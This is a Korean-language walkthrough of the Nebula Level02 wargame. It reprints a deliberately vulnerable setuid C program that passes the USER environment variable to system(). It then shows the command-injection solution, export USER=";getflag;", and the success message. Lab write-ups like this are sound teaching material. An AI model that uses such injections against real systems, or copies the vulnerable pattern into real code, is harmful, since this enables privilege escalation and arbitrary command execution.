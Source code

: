 # Exploit-exercise Nebula Level02
```
There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

To do this level, log in as the level02 account with the password level02. Files for this level can be found in /home/flag02.
```

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```

이번에도 취약점이 있는 소스코드를 주며 flag02 유저의 권한으로 getflag를 실행하라고 한다.  
asprintf 를 통해 buffer 에 getenv로 USER 라는 환경변수의 내용을 가져와서 넣는다.

그리고 system 함수를 통해 buffer 를 실행하는데, 이때 일어날 수 있는 취약점이 있다.

바로 커맨드 인젝션(Command Injection)이다.  
리눅스 쉘에서 중간에 ; 를 사용하면 여러개의 명령어를 실행시킬 수 있다.  
이를 이용해서 getflag 를 실행시키면 된다.

그렇다면 export 명령어를 통해 USER 라는 환경변수에

```
;getflag;
```

를 넣게되면
- /bin/echo
- getflag
- is cool
이렇게 3개의 명령이 실행될 것이다.

```
export USER=";getflag;"
/home/flag02/flag02
```

라고 입력하게 되면

```
You have successfully executed getflag on a target account
```

라고 뜨면서 풀리게 된다.